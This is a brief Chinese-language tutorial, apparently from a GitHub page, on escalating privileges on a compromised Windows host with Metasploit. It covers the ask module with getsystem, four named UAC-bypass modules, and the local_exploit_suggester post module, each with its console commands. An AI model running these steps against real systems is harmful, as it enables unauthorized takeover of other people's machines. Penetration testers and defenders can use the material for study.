








---

### **MSF权限提升**

#### **方法：**

- 提高程序运行级别
- BypassUAC
- 利用漏洞提权

 一、提高程序运行权限

获取到session后发现权限比较低，此时可以使用  exploit/windows/local/ask模块来尝试进行攻击



```
set session 1
set filename qq.exe
exploit
```




获取到新的session，backkground退回msf，session，执行getsystem







二、UAC绕过

相关模块

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_eventvwr 
```

bypassuac，先bypassuac在通过getsystem获取一个更高权限的session






三、利用漏洞提权

相关模块

自动查找响应系统提权exp，search suggester这个模块


```
use post/multi/recon/local_exploit_suggester
set session id
run
```



然后利用相关exp尝试提权


----